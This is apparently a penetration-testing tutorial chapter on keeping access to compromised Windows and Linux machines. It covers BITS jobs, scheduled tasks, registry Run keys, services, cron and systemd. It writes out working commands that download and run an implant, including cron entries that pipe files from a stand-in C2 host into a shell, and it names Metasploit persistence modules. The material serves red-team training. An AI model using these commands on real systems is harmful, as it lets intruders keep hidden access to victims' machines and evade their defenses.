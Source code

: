 # Persistence

The point of achieving persistence is to be able to resume control of a target machine even if the machine is rebooted, restarted or the process that is running the implant is stopped for any reason. This needs to be done in a way that will not draw attention and also continue to evade defenses such as AV and other intrusion detection/protection systems.

There are a variety of different ways of achieving persistence. The MITRE ATT&CK framework lists a range of techniques which can be summarized as follows:

* Account manipulation including account creation, using valid credentials \(passwords, hashes, Kerberos Gold and Silver Tickets\) locally or with remote services
* Boot or Login Austostart Execution/Initialization Scripts
* Create or modify system process
* Event triggered execution
* Hijack execution flow
* Office application startup
* Pre-OS Boot
* Scheduled Task/Job including BITS Jobs
* Server software component
* Traffic signaling

We won't go through all of these separately but will deal with a few by way of example. We have already come across some of these techniques, especially the first, using valid credentials, including hashes and Kerberos tickets. The caveat with using accounts, including created accounts to remotely access a machine or file system is that any unusual activity of accounts can potentially trigger alerts.

Of the remainder of the techniques, the actual procedures involved in these are specific to platform and so we will deal with each platform in turn.

## Windows Persistence

### BITS Jobs

BITS is the Background Intelligent Transfer Service which runs scheduled jobs to upload or download files and monitor their progress. There is a utility program bitsadmin.exe that can be used to configure BITS jobs, however, it will warn you that it is being deprecated and that there are PowerShell commands that should be used instead. The PowerShell commands are missing the ability to run a program after the BITS job completes and this is the feature we are counting on to run our implant. So for the time being, we will run through how to run a PowerShell grunt using BITS.

To create a BITS job, we sue the command:

```bash
bitsadmin /create myjob
```

 If we want to download the grunt, we can then use the command

```bash
bitsadmin /addfile myjob http://192.168.114.2:8000/grunt.bat c:\users\rin\grunt.bat
```

Note that if the implant was already on the machine, this part can be set to a non-valid URL, it isn't important to running the file which we do with the following command:

```bash
bitsadmin /SetNotifyCmdLine persistjob cmd.exe "/c bitsadmin.exe /complete myjob && cmd.exe /c c:\users\rin\Desktop\grunt.bat"
```

We need to run bitsadmin.exe /complete myjob because bitsadmin won't actually copy the downloaded file to its destination until this is called. After that finishes, the grunt.bat script file is run. This will pop up a cmd.exe window and so there are other ways of downloading and executing the PowerShell without running it in a command prompt.

If the download command is invalid, i.e. it returns a 404, the command will retry if a SetMinRetryDelay is set:

```bash
bitsadmin /SetMinRetryDelay persistjob 120
```

Otherwise, it is possible to combine the BITS job with a scheduled task which we will look at next.

### Scheduled Tasks

The Windows Task Scheduler allows for scripts or applications to be run at certain times or as a result of specific events. Tasks can be scheduled using the Windows GUI Task Scheduler or the command line schtasks. A task consists of a name that is used to identify it. It will run after being "triggered" at a specific time or after an event, such as logging on, or an event appearing in a log. The task will then execute an action which is either running a program, sending an email, or displaying a notification or take some other action. Executing the action can be constrained by certain conditions and finally, there are some settings that can be configured if the task fails for any reason.

For our purposes, we can use the schtasks application and simply create a task that will execute at a fixed time as follows:

```bash
schtasks /create /tn persistjob /tr "cmd.exe /c c:\Users\rin\Desktop\grunt.bat" /sc minute /mo 60
```

This is creating a task called "persistjob" with an action of running grunt.bat. The schedule \(/sc\) is defined in minutes and is set to run every 60 minutes \(/mn 60\) indefinitely. By default, the task will only run when the user is logged on.

As mentioned above, the scheduled task can be used to persist running the implant directly, or via a BITS job.

### Registry Keys

There are a variety of keys in the registry that can be used to achieve persistence. Examples include:

Autorun: keys at

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices
HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
```

Where HKCU is HKEY\_CURRENT\_USER. There are equivalent locations for HKEY\_LOCAL\_MACHINE \(HKLM\) that will run when any user logs on.

Registry keys can also be used to store actual scripts and the commands to run them. The C2 server PoshC2 for example will store a PowerShell script disguised as wallpaper in the key:

```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\themes\Wallpaper777 (or another name)
```

It will run the script from the autorun keys mentioned above, using the name of IEUpdate, or use a scheduled task or place a shortcut file that is placed at

```bash
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\IEUpdate.lnk
```

### Services

A new service can be created to persist an implant. This can be done using PowerShell

New-Service -Name "Grunt" -BinaryPathName "C:\Windows\Temp\payload.exe" -Description "A Covenant Grunt" -StartupType Automatic

```bash
sc start Grunt
```

Remember that you will need elevated privileges to do this and you would normally make more of an attempt to disguise or hide the binary file.

There are a number of other techniques but these are the most common. We will have a look at how to achieve persistence on a Linux machine next.

## Linux Persistence

As with Windows, getting credentials of an existing user or creating a new user that has remote access to the machine through remote desktop or SSH is a straightforward way of achieving persistence. With SSH, an additional key can be added to a user's authorized\_keys file as well.

### Cron Jobs

As with scheduled tasks on Windows, Cron can be used to the same end to run a binary or script at specific times. A technique used by malware is to download a file that looks like a JPG and actually contains a reverse shell. Two ways of achieving that are:

```bash
*/11 * * * * wget -O - -q http://c2server.com/pics/logo.jpg|sh
*/5 * * * * curl http://c2server.com/malicious.png -k|dd skip=2446 bs=1|sh
```

These lines represent entries in a crontab. The format is to specify minute, hour, day of the month, month and day of the week in the first 5 positions. The command that is executed follows. In the case of the above entries, this would represent running the Cron job every 11 minutes \(\*/11\) and every 5 minutes \(\*/5\).

For a user to run a cron job, they need to be configured in the /etc/cron.allow file. An individual user's cron files are stored in /var/spool/cron/crontabs. Other cron entries may be in files located in /etc/cron.d and entries in the file /etc/crontab.

Metasploit has a module for establishing persistence with cron:

```bash
exploit/linux/local/cron_persistence
```

### Systemd service

Systemd is a service that uses configuration files to start, stop and report on other services on a Linux machine. The configuration files are located in /etc/systemd/system and /usr/lib/system. A new service can be created or an existing one modified to maintain persistence. Although an attacker would normally need root privileges to create or modify a service, it is possible to run a service as a user by putting a configuration file in the home directory of a user ~/.config/system/user/

Another popular application that is used to run supervised processes is supervisord

Metasploit has a module for achieving persistence using services:

```bash
use exploit/linux/local/service_persistence
```

